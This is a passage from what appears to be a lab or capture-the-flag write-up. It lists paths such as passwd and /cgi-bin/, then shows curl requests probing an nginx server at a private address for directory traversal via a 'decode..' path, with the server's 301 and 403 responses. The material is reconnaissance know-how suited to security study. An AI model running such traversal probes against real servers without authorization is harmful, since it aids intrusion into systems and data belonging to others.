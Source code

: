 ```bash
   8   │ passwd
   9   │ /usr/
  10   │ share
  11   │ /var/www/html/
  12   │ /cgi-bin/
  13   │ decode.sh
```

**Key points:**
- `/var/www/html/`: The default document root for web servers like Apache and Nginx.
- `/cgi-bin/`: A directory for **Common Gateway Interface (CGI)** scripts, which may contain executable scripts (potential RCE target).

### 2.1. Testing Directory Traversal

```bash
❯ curl -I http://192.168.0.106/decode
HTTP/1.1 301 Moved Permanently
Server: nginx/1.18.0
Date: Mon, 24 Feb 2025 19:18:00 GMT
Content-Type: text/html
Location: http://192.168.0.106/decode/
Connection: keep-alive

❯ curl -I http://192.168.0.106/decode/
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Mon, 24 Feb 2025 19:18:19 GMT
Content-Type: text/html
Connection: keep-alive
```

```bash
❯ curl -I http://192.168.0.106/decode..
HTTP/1.1 301 Moved Permanently
Server: nginx/1.18.0
Date: Mon, 24 Feb 2025 19:20:45 GMT
Content-Type: text/html
Location: http://192.168.0.106/decode../
Connection: keep-alive

❯ curl -I http://192.168.0.106/decode../
HTTP/1.1 403 Forbidden
Server: nginx/1.18.0
Date: Mon, 24 Feb 2025 19:22:55 GMT
Content-Type: text/html
Connection: keep-alive
```

The server responded with a *403 Forbidden code*, indicating that the path exists but does not allow access. However, this does not completely rule out the possibility of **directory traversal**, as the server could be blocking only certain paths.
